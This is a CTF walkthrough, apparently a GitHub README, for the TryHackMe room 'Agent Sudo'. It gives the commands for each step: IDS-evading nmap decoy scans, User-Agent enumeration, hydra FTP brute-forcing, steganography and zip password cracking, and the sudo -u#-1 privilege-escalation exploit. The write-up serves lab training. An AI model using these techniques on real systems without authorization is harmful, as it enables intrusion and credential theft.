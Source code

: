 ![intro](https://github.com/user-attachments/assets/f0320ee6-9e24-44cf-bf4d-98c32338a829)

# tryhackme-Agent-Sudo
This is a walkthrough for the tryhackme CTF Agent Sudo. I will not provide any flags or passwords as this is intended to be used as a guide.

## Scanning

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -A -v $ip -D RND:10 -oN nmap.txt
```

Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-D RND:10 Nmap can send additional packets to confuse network intrusion detection systems (IDS) or hide the true source of the scan by randomly selecting up to 10 decoy IP addresses.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals three open ports:

![nmap](https://github.com/user-attachments/assets/eccc0012-bd2f-408e-99c1-5a3f32620794)

First, let's investigate the websever on port 80.
We are greeted with a message from Agent R:

![agent R](https://github.com/user-attachments/assets/6277fcae-9082-4506-a524-d4d8036d2b0c)

The User-Agent is a crucial part of the HTTP headers sent with every request. It helps servers identify the application, operating system, vendor, and version of the requesting user agent. In this case we can assume that agent R is one of the code names. Let's try spoofing as user-agent R on this url. 
```bash
curl -A "R" -L $ip
```
Command explanation:
-A let's use specify the user agent "R"
-L will follow redirects

We get a different response:

![agent R response](https://github.com/user-attachments/assets/a9312aa2-68ff-464e-a19b-d852219dc0e5)

This reponse gives us the hint that since there are 25 user-agents, and 26 letters in the alphabet, and agent R is one of them, that the user agent is most likely one of the other letters. Let's try the same command replacing "R" with "A", "B" and so on.

I wrote a bash script to use the cmd curl -A 'x' $ip -L that will loop through capital letters A to Z, get an MD5 hash of the curl response, then checks if the current response is different from the previous one, if the response is different it prints the User-Agent, response hash, and full curl output. If the response is the same as the previous one, it skips to the next letter without ouput.

![user-agent sh](https://github.com/user-attachments/assets/d0b94486-efcc-4996-920b-def30dc28daa)

```
bash
#!/bin/bash

# Function to get MD5 hash of cu response
get_response_hash() {
        curl -s -A "$1" $ip -L | md5sum | awk '{print $1}'
}

# Loop through capital letters A to Z
for letter in {A..Z}; do
        current_response=$(get_response_hash "$letter")

        if [ "$first_run" = true ] || [ "$current_response" != "$previous_response" ]; then
                echo "User-Agent: $letter"
                echo "Response hash: $current_response"
                curl -A "$letter" $ip -L
                echo -e "\n----------\n"


                previous_response=$current_response
                first_run=false
        fi
done
```



![agent C ](https://github.com/user-attachments/assets/802c4f48-6b83-4045-af41-c9a0f1ca7ae3)

This gives us the answer to question about the user name, chris. It also alerts us to the fact that agent C has a weak password, so we should attempt a dictionary attack with hydra and the wordlist rockyou.txt. Looking back our nmap scan, the password will most likely be for ftp or ssh. I attempted anonymous login to ftp: ftp $ip, but it prompted for a password, so let's try the password attack on the ftp server:
```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt $ip ftp
```
After about a minute, I hydra revealed the ftp password. Let's go ahead and log into the ftp server as chris:

![ftp](https://github.com/user-attachments/assets/680a6191-3213-4c78-8a7a-516c51a7aa33)

We're in! Let's use the get command to get this image files onto our machine:
```bash
get <file name>
```
First, let's cat To_agentJ.txt:


![To_agentJ txt](https://github.com/user-attachments/assets/ae98bb71-b5fa-4334-8ece-d8915c72bcaf)
Ok, I tried exiftool and strings on cute-alien.jpg but didn't yield anything. Then I tried steghide, but it prompts for a password, so let's attack it with stegcracker:

![stegcracker](https://github.com/user-attachments/assets/e9a29a66-dd5d-450b-8d44-23411b21025f)

While stegcracker is running, let's investigate cutie.png.
First, I tried exiftool and strings on it, and strings revealed an embedded txt file:
```bash
strings cutie.png
```
![strings cutie](https://github.com/user-attachments/assets/aacac05e-b801-4149-b036-6e2a295ea515)

Now, let's try binwalk on it:

![binwalk](https://github.com/user-attachments/assets/49a337c8-972f-4ebf-94c8-e629a1379699)

binwalk extracted a new directory _cutie.png.extracted.
In this directory we see the encryped 8702.zip file. Another thing to take note of, is that To_agentJ.txt is currently empty, because it's contents haven't been extracted. We will need to crack the zip file by first using zip2john, then john to crack the resulting hash:


![zip2john](https://github.com/user-attachments/assets/81d435d3-1d32-4a9e-99c7-5ecdb27341cc)
Now that we have the password, we'll use the tool 7z to extract the contents:
```bash
7z e 8702.zip
```

Now, let's read To_agentJ.txt. It reveals a message from Agent R. This string appears to be base64 encoded, so we'll need to decode it:

![base64 -d](https://github.com/user-attachments/assets/31c31d75-89da-40f2-95c7-8f2aca19ed5b)

Now, let's check back on the jpg file that's now been cracked using stegcracker:

![stegcracker_result](https://github.com/user-attachments/assets/88edafc7-9d8b-4974-83a5-e62ea715a570)
It reveals a message from chris and contains the username and password.
Great! Let's try to ssh onto the target with these credentials:
```bash
ssh james@$ip
```

We are now logged in via ssh as james, and the user flag is in his home directory.

There is also the question about the photo- Alien_autospy.jpg.
Let's tranfer this from the target machine to our attack box. Run this command from the target machine, from the jame's home directory:
```bash
python3 -m http.server
```
And wget from the attack box to get it, replace $ip with actual target IP:
```bash
wget http://$ip:8000/Alien_autospy.jpg
```
Now that we have the jpg, go to https://images.google.com/, and upload the jpg. 
Search the results and, as per the hint, keep an eye out for the foxnews site to get the answer.

# Privilege Escalation
After running sudo -l to check jame's privileges, we see james can run:
(ALL, !root) /bin/bash
This means james cannot run /bin/bash as root, but ALL implies that he can run /bin/bash as any user. In a case like this, it's a good idea to google it, especially when the question is asking for the cve #.
I clicked the result that contains sudo 1.8.27 - Security Bypass. I pasted in this cve and it is correct!
I then ran sudo -V to check the sudo version:


![sudo -V](https://github.com/user-attachments/assets/8593f750-0ada-4c3b-9641-d1185ad204bd)

This sudo version is in the vulnerable range and fits the description like a glove!
I ran the exploit:
```bash
sudo -u#-1 /bin/bash
```
James has now escalted to root!
Now, just cat root.txt to answer the last two questions.
I hope you enjoyed this room and learned a lot!




